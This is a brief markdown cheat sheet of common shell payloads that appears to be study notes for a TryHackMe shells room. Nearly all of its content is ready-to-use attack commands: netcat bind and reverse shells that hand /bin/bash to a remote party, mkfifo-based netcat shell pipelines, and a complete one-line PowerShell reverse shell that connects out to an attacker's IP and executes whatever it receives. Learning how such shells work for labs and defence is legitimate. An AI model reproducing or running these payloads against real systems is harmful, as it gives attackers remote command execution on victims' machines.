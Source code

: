 # Common Shell Payloads

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

### Execute a Process on Connection
```
nc -lvnp [PORT] -e [PROCESS]
```
Example:
```
nc -lvnp 8686 -e /bin/bash
```
For a Reverse Shell:
```
nc [LOCAL-IP] [PORT] -e /bin/bash
```
*********************************************************************************

### Create a Listener for a Bind Shell (Linux):
```
mkfifo /tmp/f; nc -lvnp [PORT] < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
Similar Command can be Used to Send a Netcat Reverse Shell:
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
*********************************************************************************

### Standard One-liner PowerShell Reverse Shell
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('[IP-ADDRESS]',[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
*Ensure [IP-ADDRESS] and [PORT] are filled*
*********************************************************************************

### Reference
https://tryhackme.com/room/introtoshells

